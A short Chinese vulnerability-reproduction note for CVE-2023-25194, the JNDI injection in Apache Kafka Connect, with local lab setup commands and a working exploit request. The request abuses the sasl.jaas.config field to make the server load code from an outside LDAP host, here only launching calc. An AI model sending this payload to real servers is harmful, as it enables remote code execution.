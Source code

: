 ```yaml
---
layout: post
title: ApacheKafkaJNDI注入漏洞
abbrlink: 9165b094dd0b4287a48fb78422f863bc
tags: []
categories:
  - 漏洞挖掘与复现
  - Apache系列
  - ApacheKafka
date: 1735134707862
updated: 1735134708550
---
```


```python

CVE-2023-25194
```

## 搭建漏洞环境

放在阿里云盘

```python
bin\windows\zookeeper-server-start.bat config\zookeeper.properties

bin\windows\kafka-server-start.bat config\server.properties

bin\windows\connect-standalone.bat config/connect-standalone.properties config/connect-file-source.properties config/connect-file-sink.properties
```

## 漏洞复现

访问<http://127.0.0.1:8083/connector-plugins查看是否存在依赖>\
![1676013159662-67a0cb57-78e6-497d-b0e4-432055618aa8.png](/resources/c7f1aead252842bda91bda7c938c2f1c.png)
接着使用如下请求包创建连接器

```python
POST /connectors HTTP/1.1
Host: 127.0.0.1:8083
Content-Type: application/json
Content-Length: 821

{
	"name": "debezium-test-50173",
	"config": {
		"connector.class": "io.debezium.connector.mysql.MySqlConnector",
		"database.hostname": "127.0.0.1",
		"database.port": "3306",
		"database.user": "root",
		"database.password": "root",
		"database.server.id": "316545017",
		"database.server.name": "test1",
		"database.history.kafka.bootstrap.servers": "127.0.0.1:9092",
		"database.history.kafka.topic": "quickstart-events",   	"database.history.producer.security.protocol": "SASL_SSL",
    	"database.history.producer.sasl.mechanism": "PLAIN",
    	"database.history.producer.sasl.jaas.config": "com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://ip:8089/Basic/Command/calc\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
	}
}
```

> 注：需要对数据库进行配置(时区设置)

![1676020803716-6826de2b-1f14-4e61-9172-82675266151d.png](/resources/1c2027d33daa4c6c933f0b296e7e79b2.png)

> 更新: 2023-04-24 09:35:36\
> 原文: <https://www.yuque.com/yuqueyonghuwrqimt/vtxvff/elb2fp2q4dwi5co1>
